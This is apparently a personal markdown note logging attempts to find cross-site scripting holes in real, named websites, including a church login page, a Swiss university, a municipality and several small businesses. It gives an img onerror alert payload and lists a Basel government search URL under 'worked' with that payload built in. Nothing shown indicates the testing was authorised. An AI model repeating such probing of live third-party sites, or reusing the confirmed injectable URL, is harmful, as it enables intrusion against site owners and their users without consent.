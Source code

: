 
### websites:
- https://id.churchofjesuschrist.org/oauth2/default/v1/authorize?client_id=0oany0ls2jXPk2bPH357&redirect_uri=https%3A%2F%2Fcamping.churchofjesuschrist.org%2Fsignin-oidc&response_type=code&scope=openid%20profile%20offline_access&code_challenge=n-vIZ4Mc5901oGa7A3UQEwa98tYM2_T1OjGVpwjdF6s&code_challenge_method=S256&response_mode=form_post&nonce=638954406596090516.YmU5Yzk4OWYtMjVlZC00YzVkLWIwZmItZmExNGNlNTdjODAxOTU2Y2I2MTQtMDJhNi00Mzk3LWE1N2YtMDY5ZmU0Y2M4NzY4&state=CfDJ8Bzuc34TqFRGtUhB2zm09EWrXSTsS8_Cf8cNDlMpX3DyNYtaKwbFbPoseb4qvKtmjx6z5d_WEXqhfijncoOKkgrXGVbpobujTEmzIuEP_ydtcoNZNiZmb4SNwVzEoJ7ta6Ak2i99pyWuEhOBYfYbAhUYxOFpVzOMtQcAez_ap_nM-484SEclssRmT5WTFjkvDi1wZQkYl4vYPCgChgTWEBt8JhxxXRc9ZHgXoYK8Jr2kHYtPtuxloifdhmiVZLdKgcVHembOyZVjEJzKVcrxsx6j8UXIO6Xu0YvQrGIpDnGR6R8JoTnUgsOg8BtqKMZJNwrWHG4wHxsNxQA0EsMDxTk2nqOxMMP6owghRirpl7hsZS4EvG-kKAjo--ieDEeD0caMxD6XN7kgAxr-dpoUveNaNLveaQ_IVtn6jSx8E2GKR0uadCo0cyXOsIHU479oAw&x-client-SKU=ID_NET8_0&x-client-ver=7.1.2.0
    - Not injectable in login
- https://www.fhnw.ch/de/weiterbildung/wirtschaft/abheben?utm_source=google&utm_medium=cpc&utm_campaign=hsw-wb-25-imagekampagne-abheben&gad_source=1&gad_campaignid=21768077001&gbraid=0AAAAADwPET4fG-NSYyTx0Osm65StyzRSE&gclid=Cj0KCQjw9JLHBhC-ARIsAK4PhcpRO7Vmtluw64Oxsp96Vj1QF7vfsM3DUiryLS_qfrEyUX_QUv5ThbcaAn6-EALw_wcB
    - i dont want to download the entire js
- https://www.ehrendingen.ch/
    - not really searches not showing etc and not espaceable
- https://hc-ehrendingen.ch/
    - not really inputs
- https://www.carmens-coiffeur.ch/
    - not really inputs
- https://hairandstyle-nathalie.ch/kontakt/
    - no inputs
- https://www.biocoiffeur-kloter.ch/index.php/Home
    - no inputs
- https://www.badenbasket.ch/
- 

<img src='' onerror='alert()'>

### worked
- https://www.bs.ch/suche?text=%3Cimg+src=%27%27+onerror=%27alert(%22wow%22)%27%3E
    - <img src='' onerror='alert("wow")'>



